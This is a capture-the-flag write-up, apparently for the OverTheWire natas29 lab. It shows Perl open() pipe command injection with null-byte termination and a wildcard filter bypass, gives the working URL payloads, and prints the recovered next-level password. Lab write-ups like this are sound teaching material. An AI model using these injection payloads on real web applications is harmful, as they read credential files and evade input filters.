 ```yaml
---
layout: default
title: natas29
---
```


We can see it gets a file and reads it, using `perl`.

From here [piping in open function perl](https://perldoc.perl.org/functions/open#Opening-a-filehandle-into-a-command), we can see that if you supply `|` and then `cmd` else, it will execute `cmd`. 

also, we need to supply `%00` to null terminate the string at the end. (`perl` is based on `C`).

* input:
> `http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%00`
* output:
> `index.pl perl underground 2.txt perl underground 3.txt perl underground 4.txt perl underground 5.txt perl underground.txt`

Okay, so let's read the password:
* input:
> `|more%20/etc/natas_webpass/natas29%20-l%00`
* output:
> no output, gets `meeeeeep!`, probably it WAFing the word `natas`

Let's try bypassing, by using regex, like `nata*`

* input:
> `|more%20/etc/nata*/nata*30%20-l%00`
* output:
> `:::::::::::::: /etc/natas_webpass/natas30 :::::::::::::: WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH`

I'm using `more` because `cat`, `head` and `tail` not working. 

**Flag:** ***`WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH`*** 